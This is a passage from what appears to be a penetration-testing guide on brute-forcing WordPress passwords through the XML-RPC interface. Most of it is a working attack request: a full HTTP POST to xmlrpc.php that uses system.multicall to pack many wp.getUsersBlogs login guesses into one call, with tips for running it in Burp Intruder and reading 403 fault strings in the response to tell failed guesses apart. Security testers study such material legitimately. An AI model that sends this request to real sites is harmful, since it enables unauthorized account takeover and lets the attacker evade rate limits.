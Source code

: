 The above request can be sent in Burp Intruder (for example) with different sets of credentials. Note that, even if you guess the password or not, **the response code will always be 200**. I highly recommend looking for errors/messages within the body of the response.
**Worried about sending way to much requests against the target?** - No worries. WordPress XML-RPC by default allows an attacker to perform a single request, and brute force hundreds of passwords.
The following request requires permissions for both `system.multicall` and `wp.getUsersBlogs` methods:

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 1560

<?xml version="1.0"?>
<methodCall><methodName>system.multicall</methodName><params><param><value><array><data>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

</data></array></value></param></params></methodCall>
```

**RESPONSE:**

```
HTTP/1.1 200 OK
Date: Mon, 01 Jul 2019 23:02:55 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
Connection: close
Vary: Accept-Encoding
Referrer-Policy: no-referrer-when-downgrade
Content-Length: 1043
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>Incorrect username or password.</string></value></member>
</struct></value>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
```